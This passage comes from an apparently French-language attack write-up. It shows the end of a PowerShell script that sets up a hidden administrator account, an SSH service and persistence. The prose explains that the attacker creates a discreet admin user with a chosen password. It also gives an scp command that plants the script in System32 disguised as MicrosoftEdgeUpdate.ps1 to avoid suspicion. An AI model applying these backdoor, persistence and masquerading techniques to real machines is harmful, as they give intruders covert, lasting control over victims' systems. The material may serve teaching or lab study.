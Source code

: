 ```powershell
        Write-Host "Persistence mechanism established successfully"
    }
    catch {
        Write-Host "Error setting up persistence: $_"
        Add-Content -Path $logPath -Value "$(Get-Date) - Error setting persistence: $_"
    }
}

# Main execution
try {
    Manage-SystemUser
    Configure-SSHService
    Set-SystemPersistence
    Write-Host "Setup completed successfully"
}
catch {
    Write-Host "Error during setup: $_"
    Add-Content -Path $logPath -Value "$(Get-Date) - Critical error during setup: $_"
}
```

Ce script va permettre de créer un second utilisateur avec les privilèges administrateurs et un login et un mot de passe préalablement choisi (Dans notre cas, Jean et Jean1234). On peut constater qu’un problème se montre clairement dans la plupart des systèmes Windows ; Pour notre attaque, nous n’avons pas besoin de réaliser de privesc (Privilege escalation) car notre cible et comme beaucoup d’autre utilisent leur compte utilisateur avec des privilèges administrateurs, ce qui pose un énorme problème de sécurité. Et pour des raisons de discrétion, nous avons choisi de créer un autre utilisateur plus discret et avec les privilèges administrateur.

Pour le transférer, nous allons utiliser l’utilitaire de transfert scp car celui-ci fonctionne via le protocole ssh.
Nous faisons donc la commande suivante : “scp MicrosoftEdgeUpdate.ps1 JeanJean@192.168.195.133:"C:\Windows\System32\MicrosoftEdgeUpdate.ps1"
Et celle-ci va placer notre script dans le répertoire System32 sous le nom MicrosoftEdgeUpdate.ps1 pour ne pas éveiller les soupçons, de plus que le répertoire System32 contient un grand nombre de fichier est d’exécutables ce qui rendra notre script plus difficile à localiser.

![alt text](image-38.png)

![alt text](image-37.png)
